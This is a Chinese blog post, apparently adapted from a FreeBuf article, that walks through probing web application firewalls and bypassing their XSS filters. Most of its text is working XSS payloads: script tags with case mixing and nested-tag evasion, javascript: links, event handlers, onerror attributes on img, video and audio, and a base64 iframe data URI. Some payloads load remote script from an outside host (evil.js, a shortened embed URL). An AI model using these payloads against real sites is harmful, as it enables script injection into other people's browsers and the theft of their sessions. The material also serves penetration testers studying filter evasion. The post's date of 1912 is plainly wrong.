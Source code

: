 title: XSS之WAF绕过
date: 1912-12
categories: [web]
tags: [xss,绕过,waf]
---
XSS现代WAF规则探测及绕过技术
[via@freebuf] 原作者：RAFAY BALOCH,TANZIL JAFFERY



初始测试

1、使用无害的payload，类似`<b>`,`<i>`,`<u>`观察响应，判断应用程序是否被HTML编码，是否标签被过滤，是否过滤<>等等；

2、如果过滤闭合标签，尝试无闭合标签的payload（<b,<i,<marquee）观察响应；

3、尝试以下的payload
```
<script>alert(1);</script> 
<script>prompt(1);</script> 
<script>confirm (1);</script> 
<script src="http://rhainfosec.com/evil.js">
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm      (1);</script>
<script src="http://rhainfosec.com/evil.js">
```
判断是否触发过滤规则，尝试使用大小写混合字符
```
<scRiPt>alert(1);</scrIPt>
```
1、如果大小写不行的话，`<script>`被过滤尝试`<scr<script>ipt>alert(1)</scr<script>ipt>`；

2、使用`<a>`标签测试
```
<a  href=“http://www.google.com">Clickme</a>
```
<a被过滤？

href被过滤？

其他内容被过滤？

如果没有过滤尝试使用
```
<a href=”javascript:alert(1)”>Clickme</a>
```
尝试使用错误的事件查看过滤
```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
```
HTML5拥有150个事件处理函数，可以多尝试其他函数
```
<body/onhashchange=alert(1)><a href=#>clickit
```
测试其他标签

src属性
```
    <img src=x      onerror=prompt(1);>
    <img/src=aaa.jpg      onerror=prompt(1);
    <video src=x      onerror=prompt(1);>
    <audio src=x      onerror=prompt(1);>
```
iframe
```
    <iframesrc="javascript:alert(2)">
    <iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```
Embed
```
    <embed/src=//goo.gl/nlX0P>
```